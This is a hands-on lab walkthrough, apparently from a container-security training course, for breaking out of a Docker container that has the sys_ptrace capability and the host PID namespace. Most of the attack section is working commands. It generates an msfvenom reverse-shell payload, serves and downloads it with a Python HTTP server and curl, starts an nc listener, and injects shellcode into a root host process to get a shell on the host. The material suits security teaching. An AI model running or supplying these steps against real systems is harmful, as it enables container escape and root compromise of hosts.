




Attacking Container Capabilities
In this scenario we will exploit a container with sys_ptrace capability running with host PID namespace. We will exploit these to breakout of the container and access the host system. We assume that the attacker already has access to the container for this scenario.
- Login to the container using below command. Ensure that you run this in the
CTFvm
docker exec -it sysmon bash

- Check for existing capabilities by running
capsh --print

- Also the container has enabled
--pid=hostso we can access then host process usingtopcommand

Since an attacker can list host processes and has the
sys_ptracecapability. Attacker can exploit this scenario to inject and execute code from the address space of any host process. This effectively results in a docker escape as the attacker can execute code outside the container.
Steps to attack
- Generate reverse shell payload using metasploit's
msfvenomprogram. Replace the192.168.56.3with student vm IP address.
cd /home/student/linux-injector
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.3 LPORT=4444 -f raw -o payload.bin

- Send the exploit and injector program to the container using simple python server. Run the below command in student vm
cd /home/student
tar -czf linux-injector.tar.gz linux-injector
python -m SimpleHTTPServer 8002

- Download the payload in the ctf vm container. Run the below command in the CTF vm and inside the
sysmoncontainer. Ensure you replace the192.168.56.3with your student vm IP
curl -o linux-injector.tar.gz http://192.168.56.3:8002/linux-injector.tar.gz
tar xzf linux-injector.tar.gz
cd linux-injector
chmod 755 injector

- Start the
nclistener to receive the connect back shell in student vm. Run the following command in student VM
nc -lvp 4444

- Now identify the process, which is running as
rootin the host system to gain root access for connect back. Run the following command inside CTF vmsysmoncontainer
ps auxx | grep root | grep ping

./injector 2046 payload.bin
- On successful injection of payload, we get a reverse connection at our listener with access to host system outside the container
